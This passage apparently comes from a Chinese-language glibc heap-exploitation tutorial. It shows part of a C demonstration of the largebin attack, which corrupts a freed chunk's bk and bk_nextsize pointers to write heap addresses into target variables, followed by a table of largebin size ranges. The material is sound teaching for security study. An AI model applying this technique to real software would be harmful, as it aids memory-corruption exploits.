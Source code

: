 ```c
    malloc(0x10);

    size_t* chunk_b = malloc(0x450); // 该chunk挂入largebin时触发largebin attack
    malloc(0x10);

    
    // 将chunk_a和chunk_c都挂入unsortedbin 
    free(chunk_a);
    free(chunk_c);
    // 此时unsortedbin -> chunk_c -> chunk_a，先进先出

    malloc(0x50); // 切割chunk_a，同时使得chunk_c挂入largebin

    free(chunk_b); // chunk_b挂入unsortedbin，此时unsortedbin -> chunk_b -> chunk_a(splitted)
    // 先进先出，再申请小chunk时会切割chunk_a

    /* vuln start */
    // chunk_c[0] = 0; // fd不用管
    chunk_c[1] = (size_t)&value1 - 0x10; // bk设置为要修改的值的地址减去0x10
    // chunk_c[2] = 0; // fd_nextsize不用管
    chunk_c[3] = (size_t)&value2 - 0x20; //bk_nextsize设置为要修改的地址减去0x20
    /* vuln ends */

    malloc(0x50); // 切割chunk_a，同时使得chunk_b挂入largebin，触发largebin_attack

    printf("After attack the value of value1 is 0x%lx, and the value of value2 is 0x%lx.\n", value1, value2);
    assert(value1 != 0);
    assert(value2 != 0);
    return 0;
}
```

### 注: 各个largebin范围

此外需要注意在`glibc>=2.27`时，`>=0x420`的`chunk`才会放到`unsortedbin`，小于则会放到`tcache`。

```
size              index
[0x400 , 0x440)    64
[0x440 , 0x480)    65
[0x480 , 0x4C0)    66
[0x4C0 , 0x500)    67
[0x500 , 0x540)    68
等差 0x40    …
[0xC00 , 0xC40)    96
[0xC40 , 0xE00)    97
[0xE00 , 0x1000)    98
[0x1000 , 0x1200)    99
[0x1200 , 0x1400)    100
[0x1400 , 0x1600)    101
等差 0x200    …
[0x2800 , 0x2A00)    111
[0x2A00 , 0x3000)    112
[0x3000 , 0x4000)    113
[0x4000 , 0x5000)    114
等差 0x1000    …
[0x9000 , 0xA000)    119
[0xA000 , 0x10000)    120
[0x10000 , 0x18000)    121
[0x18000 , 0x20000)    122
[0x20000 , 0x28000)    123
[0x28000 , 0x40000)    124
[0x40000 , 0x80000)    125
```